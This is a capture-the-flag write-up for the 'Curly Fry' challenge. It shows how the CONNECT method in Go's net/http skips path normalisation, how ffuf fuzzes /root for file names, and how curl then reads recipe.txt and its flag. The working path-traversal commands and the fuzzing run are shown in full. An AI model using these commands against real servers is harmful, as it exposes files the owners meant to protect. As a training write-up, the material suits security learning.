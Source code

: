 # Curly Fry

### Description
Who needs Flask when you have Golang -- the new meta for web apps. Check out this super slick and functional website. 

### Writeup

This is a path travesal/fuzzing challenge. In golang, the library `net/http` usually transforms the path to a canonical one before accessing it:
```
/flag/   -- Is responded with a redirect to /flag
/../flag -- Is responded with a redirect to /flag
/flag/.  -- Is responded with a redirect to /flag
```
However, when the CONNECT method is used this doesn't happen. So, if you need to access some protected resource you can abuse this trick: 
`curl --path-as-is -X CONNECT http://gofs.web.jctf.pro/../flag`

Above text copied from: https://book.hacktricks.xyz/pentesting/pentesting-web/golang

We know the flag is in the `/root` directory but we do not know the file name. We can fuzz this:

```console
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://localhost/../../../../../../../root/FUZZ -e .txt -X CONNECT -c -fs 50

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : CONNECT
 :: URL              : http://localhost/../../../../../../../root/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 50
________________________________________________

recipe.txt              [Status: 200, Size: 429, Words: 68, Lines: 15]
```

The `-fs 50` filters out all responses where the response size is 50. If you fuzz without a filter, you will see a `Status: 200, Size: 50` for every fuzzing attempt, which is just the default web server response: `The path provided is not a file or does not exist.` Thus, we filter out those responses.

We saw that `recipe.txt` was a hit, so let's curl it.

```console
$ curl --path-as-is -X CONNECT http://localhost/../../../../../../../root/recipe.txt
Ingredients: for 2 servings
- 2 curly potatoes
- 2 tablespoons of old bay seasoning
- ketchup and malt vinegar

Preparation
1. Preheat oven to 420°F
2. Slice the potatoes with a knife as they are already curly to begin with
3. Put your seasoning on em
4. Just throw them into the oven
5. Bake until they look good, idk.
6. Put ketchup on a plate and stir in a little malt vinegar
7. Enjoy!
8. Get flag: PCTF{tru5t_m3_im_4_ch3f}
```
